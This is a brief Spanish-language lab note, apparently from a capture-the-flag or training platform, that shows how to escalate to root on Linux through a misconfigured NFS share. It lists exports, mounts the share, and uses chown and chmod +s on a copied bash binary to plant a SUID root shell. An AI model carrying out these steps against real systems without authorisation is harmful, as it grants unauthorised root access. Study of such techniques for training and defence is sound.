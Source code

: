 # NFS

Los vectores de escalada de privilegios no se limitan al acceso interno. Las carpetas compartidas y las interfaces de administración remota como SSH y Telnet también pueden ayudarlo a obtener acceso raíz en el sistema de destino. Algunos casos también requerirán el uso de ambos vectores, por ejemplo, encontrar una clave privada SSH raíz en el sistema de destino y conectarse a través de SSH con privilegios de raíz en lugar de intentar aumentar el nivel de privilegios de su usuario actual.

```shell
showmount -e 10.10.26.250
```

<figure><img src="../../.gitbook/assets/20231008184233.png" alt=""><figcaption></figcaption></figure>

```
karen@ip-10-10-26-250:/tmp$ cp /bin/bash .
```

```shell
❯ sudo mount -t nfs 10.10.26.250:/tmp /tmp/share
❯ cd /tmp/share
❯ sudo chown root.root bash
❯ sudo chmod +s bash
❯ chmod +x bash
```

<figure><img src="../../.gitbook/assets/20231008190304.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20231008191113.png" alt=""><figcaption></figcaption></figure>

### Referencias

* [https://steflan-security.com/linux-privilege-escalation-exploiting-nfs-shares/](https://steflan-security.com/linux-privilege-escalation-exploiting-nfs-shares/)
* [https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)
